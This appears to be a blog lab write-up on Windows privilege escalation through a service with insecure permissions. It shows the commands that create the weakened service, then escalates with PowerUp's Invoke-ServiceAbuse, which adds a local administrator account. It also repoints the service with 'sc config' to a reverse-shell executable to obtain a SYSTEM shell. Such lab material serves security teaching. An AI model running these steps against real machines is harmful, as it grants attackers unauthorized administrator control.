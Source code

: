 ```yaml
---
title: Exploiting Insecure Service Permissions
---
```


**Description: In this post, I go over setting up a lab environment with a service that has insecure permissions, then walkthrough how to exploit it using PowerUp & manually**

## Insecure Service Permissions

When it comes to this vulnerability, we're simply modifying the service so it points to an executable we want to run along with the parameters to run with it! The reason why this is possible is because excessive privileges have been granted to modify a service, such as allowing everybody to modify it or allowing lower privilege users to modify it.

## Lab Setup

Let's setup our lab environment, I'm using a Windows 10 workstation & I'll be creating a low-level user, then setting up a service to run under the context of the local administrator account, & then allowing every user to modify that service.

Login as the local administrator user & create the service by running:

`New-Service -Name "Vulnerable Service" -BinaryPathName "C:\\VulnerableService"`

Then we must change the permissions for this service so everyone can modify it:

`sc sdset "Vulnerable Service" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)(A;;CCLCSWRPWPDTLOCRRC;;;AC)(A;;CCLCSWLOCRRC;;;PU)(A;;CCLCSWLOCRRC;;;RU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;NS)(A;;CCLCSWRPWPDTLOCRRC;;;AU)`

## Exploitation

The first step is detecting services that have weak/misconfigured permissions which can be done using `Powersploit`'s `PowerUp` script, specifically the `Get-ModifiableService` function:

![](https://i.imgur.com/d9n47AT.png)

As you can see here, it returns back our intentionally vulnerable service that we previously created! It even gives us the function that we can use to abuse this vulnerable service.

By default, if you run the `Invoke-ServiceAbuse` function & only supply the name of the service as an argument, it'll create an executable that will add a new user named `john` with a password of `Password123` & add the user to the local administrators group.

If you supply the `-UserName`, `-Password`, & `LocalGroup` arguments, you can add in a custom username & password & manually specify the group you want that user to be added to.

For example, if we run:

- `Invoke-ServiceAbuse -Name "Vulnerable Service" -Username "1d8" -Password "password123" -LocalGroup "Administrators"`, then it'll create our new user named 1d8 with the password we specified & add it to the local administrators group

You can even use the `-Command` parameter in order to execute a custom command.

Let's just run it without any arguments:

![](https://i.imgur.com/XAoemaq.png)

Doing so, we see it created & added our new user John to the local administrators group.

Let's sign out & verify that the user was added:

![](https://i.imgur.com/nHomigx.png)

And as you can see, our user is part of the local administrators group:

![](https://i.imgur.com/zWWWRhs.png)

And let's say you want to manually exploit the service instead of having to load `PowerUp` onto the compromised system. You can do so using the native Windows Service Control (`sc`) utility!

First, we'll run `sc config "Vulnerable Service" binPath= "C:\\Users\\lowprivileges\\Desktop\\shell.exe"` which will set the executable that the service executes to our reverse shell

![](https://i.imgur.com/FMH2Tjr.png)

Before we start the service, ensure your listener is running to catch the connection. Then we'll start the service by running `net start "Vulnerable Service"`.

And we get a shell as `NT-Authority\\system`:

![](https://i.imgur.com/Jryt6QT.png)

**References**

* https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc 
